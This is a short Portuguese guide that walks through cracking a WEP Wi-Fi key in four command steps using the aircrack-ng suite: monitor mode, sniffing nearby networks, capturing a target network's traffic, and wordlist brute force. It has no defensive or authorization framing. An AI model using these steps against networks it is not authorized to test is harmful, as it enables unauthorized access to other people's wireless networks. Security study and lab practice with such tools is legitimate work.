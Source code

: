 ## Atacando WEP com Brute Force

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo

 ``` airodump-ng <interface> ```


#### 3° passo:

Focar o sniffing na rede alvo para capturar o trafego...

 ``` airodump-ng --bssid BSSID --channel CHANNEL <interface> -w CAPNAME ```


#### 4° passo:

Esperar alguns clientes se conectarem e usar a captura para acahr a key... 

 ``` aircrack-ng -a 1 -n 128 -w <wordlist> arquivo.cap ```
 
 

